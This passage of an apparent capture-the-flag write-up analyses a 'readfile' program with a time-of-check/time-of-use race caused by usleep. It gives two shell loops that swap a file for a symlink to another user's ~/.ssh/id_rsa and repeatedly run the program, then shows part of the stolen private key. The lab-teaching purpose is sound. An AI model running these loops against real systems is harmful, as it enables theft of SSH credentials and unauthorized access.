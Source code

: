 Basically, first the application checks if the user supplied an argument while running it; if not prints the `Usage: ./readfile <FILE>` message and exits.

It then checks if the supplied argument is an existing file; if not prints the `File Not Found` message and exits.

After that, it checks if the user running the program has the UID `1002` (`john`), and if not prints the `You can't run this program` message and exits.

Next, it checks if the supplied filename includes either `flag` or `id_rsa`, it checks if the file is a `symlink` and if the user running the program can read it. If the file is not a `symlink`, does not include `flag` or `id_rsa`, and the user can read it, it sleeps for a bit, opens the file, reads its contents, and prints them.

The issue here is that there is a delay between the `Time of Check` and `Time of Use` due to `usleep`, which creates a race condition vulnerability.

### Race Condition 

To exploit this race condition vulnerability, we can create a file and constantly switch it between a regular file and a symlink pointing to the file we want to read as `youcef`. This way, we are hoping for that while the application performs the checks, it will see a regular file and we will pass the checks. However, when it comes time to open and read, it will be a `symlink` pointing to the file we actually want to read.

For this, we will first use a loop to constantly switch the file between these two states and run it in the background.

```console
while true; do touch file; sleep 0.3; ln -sf /home/youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &
```
{: .wrap }

Now, we will create another loop that continuously runs the program, hoping to win the race condition. If we succeed, it will print the output and exit.

```console
while true; do out=$(/home/youcef/readfile file | grep -Ev 'Found|guess'| grep .);if [[ -n "$out" ]]; then echo -e "$out"; break; fi; done
```
{: .wrap }

As we can see, after a while, we win the race and manage to read `/home/youcef/.ssh/id_rsa`.

```console
john@Breakme:~$ while true; do touch file; sleep 0.3; ln -sf /home/youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &
[1] 54913
john@Breakme:~$ while true; do out=$(/home/youcef/readfile file | grep -Ev 'Found|guess'| grep .);if [[ -n "$out" ]]; then echo -e "$out"; break; fi; done
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z
...
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
```
{: .wrap }
